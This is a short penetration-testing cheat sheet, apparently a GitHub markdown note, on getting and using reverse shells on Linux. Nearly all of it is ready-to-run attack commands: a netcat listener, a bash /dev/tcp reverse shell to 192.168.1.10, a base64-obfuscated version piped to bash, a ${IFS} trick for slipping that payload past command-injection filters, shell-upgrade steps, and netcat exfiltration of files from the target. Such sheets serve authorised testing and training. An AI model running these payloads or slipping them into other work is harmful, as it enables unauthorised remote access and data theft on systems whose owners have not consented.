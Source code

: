 # Linux Shells

All things linux shells

## Basic Reverse Shell

### Start Listener

```bash
rlwrap -crA nc -lvnp 9001
```

**Note:** Prepending `rlwrap` provides a more user-friendly shell experience

### Launch Connection

```bash
# Basic bash reverse shell
bash -i >& /dev/tcp/192.168.1.10/9001 0>&1
```

**Note:** Try different payloads from [RevShells](https://www.revshells.com) if a simple bash one doesn't work

```bash
# Base64 encode if necessary (can potentially allow us to bypass certain restrictions)
echo 'bash -i >& /dev/tcp/192.168.1.10/9001 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg==
```

We can now use the following payload:

```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg==' | base64 -d | bash
```

### Upgrade Shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo; fg
ENTER
export TERM=xterm
```

**Note:** `export TERM=xterm` allows you clear screen with `ctrl+l`

### Filter Bypass

```bash
# Space filters, replacing spaces with `${IFS}` (possibly `${IFS%??}` if that doesn't work)
echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg=='${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
```

### Download files

```bash
# On kali
nc -lvnp 1234 > example.txt

# On target
nc 192.168.1.10 1234 < example.txt
```
